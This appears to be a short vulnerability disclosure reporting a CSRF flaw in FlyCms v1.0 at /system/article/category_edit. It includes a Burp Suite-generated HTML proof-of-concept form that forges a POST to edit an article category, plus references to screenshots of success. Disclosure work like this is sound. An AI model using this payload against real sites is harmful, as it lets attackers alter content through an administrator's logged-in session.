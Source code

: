 target:https://github.com/sunkaifei/FlyCms
version: v1.0

FlyCms v1.0 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component /system/article/category_edit

![image-20240108165756056](./image/image-20240109075756056.png)



Poc

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://192.168.247.192/system/article/category_edit?id=1&name=%E7%A7%BB%E5%8A%A8%E5%BC%80%E5%8F%91123" method="POST">
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>



```



![image-20240108165931640](./image/image-20240109075931640.png)



Success:

![image-20240108170027562](./image/image-20240109080027562.png)


